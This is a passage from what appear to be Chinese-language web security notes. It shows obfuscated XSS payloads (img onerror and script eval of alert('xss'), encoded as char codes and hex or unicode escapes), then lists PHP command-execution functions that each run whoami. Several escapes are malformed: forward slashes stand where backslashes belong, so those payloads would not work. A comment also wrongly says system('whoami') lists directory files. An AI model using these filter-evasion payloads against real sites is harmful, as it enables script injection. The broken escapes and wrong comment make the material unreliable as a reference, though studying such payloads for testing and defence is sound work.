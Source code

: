 ```html


<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,120,115,115,39,41))>


<img src=x onerror=eval("/x61/x6c/x65/x72/x74/x28/x27/x78/x73/x73/x27/x29")>
<script>eval("/x61/x6c/x65/x72/x74/x28/x27/x78/x73/x73/x27/x29")</script>


<img src=x onerror=eval("/u0061/u006c/u0065/u0072/u0074/u0028/u0027/u0078/u0073/u0073/u0027/u0029")>



</body>
</html>
```

****

### 命令执行

#### 相关函数

```php
<?php
// 1. system()
system('whoami'); // 列出当前目录的文件

// 2. exec()
exec('whoami', $output); // 执行命令并将输出保存到数组中
print_r($output);

// 3. shell_exec()
$result = shell_exec('whoami'); // 执行命令并将结果作为字符串返回
echo $result;

// 4. passthru()
passthru('whoami'); // 执行命令并直接输出结果

// 5. popen()
$handle = popen('whoami', 'r'); // 打开进程以读取输出
while (($line = fgets($handle)) !== false) {
    echo $line;
}
pclose($handle);

// 6. 反引号 (backticks)
$output = `whoami`; // 使用反引号执行命令并将结果作为字符串返回
echo $output;
?>
```
